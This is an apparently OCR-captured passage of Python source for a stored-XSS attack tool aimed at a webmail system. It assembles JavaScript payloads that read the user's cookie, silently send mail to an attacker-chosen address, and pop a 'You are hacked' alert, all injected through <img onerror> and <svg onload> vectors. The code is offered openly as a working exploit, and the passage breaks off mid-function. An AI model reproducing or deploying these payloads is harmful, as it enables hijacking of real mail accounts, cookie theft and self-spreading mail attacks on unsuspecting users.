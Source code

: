 ```python
                try{
                newURL = currentURL.replace(/BlankMessageBody/,'Compose');
                xmlhttp1=new XMLHttpRequest();
                url = newURL + decodeURIComponent('%26ComposeInNewWindow=Yes%26ChangeView=No%26SendNow=Yes');
                xmlhttp1.open('POST',url,false);
                xmlhttp1.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                letter = decodeURIComponent('Attachment=%26ComposeUser=AGdsXhNOEJOGhG7lRyMJ%26ComposeID=1%26Attn=%26Company=%26From=0%26Reply-To=%26SaveSentMessage=No%26To=''' +send\_attack\_to\_who+'''%26CC=%26BCC=%26Subject=t''' + Subject + '''%26Body=test2%26BodyHTML='''+ body +'''\\');
                xmlhttp1.send(letter);
                response = xmlhttp1.responseText;}catch(error){}
'''
test = '''
                try{
                alert('You are hacked!!!!') }catch(error){}
            '''
user = '''      
                try{
                var user = 'unknow';
                var pos=document.cookie.toLowerCase().indexOf('user=') + 5;
                subcookie = document.cookie.substring(pos);
                var pos1 = subcookie.indexOf(';');
                if(pos1!=-1){ user = subcookie.substring(0,pos1);
                }else{user = subcookie }}catch(error){}
                currentURL = window.location.href;
                if(currentURL.indexOf('View=Main') > 0){
                currentURL = currentURL.replace(/Main/,'BlankMessageBody');}
'''
#function = \['forwarding','contact','receive','send','delete','mitm'\]
def gen\_js():
    if browser == 'chrome':     
        attact\_js = '''<img/<!----test----/onerror="''' + user
        if 'forwarding' in function:
            attact\_js += forwarding     
        if 'mitm' in function:
            attact\_js += mitm  
        if 'contact' in function:
            attact\_js += contact  
        if 'receive' in function:
            attact\_js += receive  
        if 'send' in function:
            attact\_js += send  
        if 'delete' in function:
            attact\_js += delete  
        if 'test' in function:
            attact\_js += test  
        attact\_js += '''" src="#">'''  
    else:
        attact\_js = '''<svg/<!----test----/onload="''' + user
        if 'forwarding' in function:
            attact\_js += forwarding     
        if 'mitm' in function:
            attact\_js += mitm   
        if 'contact' in function:
            attact\_js += contact  
        if 'receive' in function:
            attact\_js += receive  
        if 'send' in function:
            attact\_js += send  
        if 'delete' in function:
            attact\_js += delete  
        if 'test' in function:
```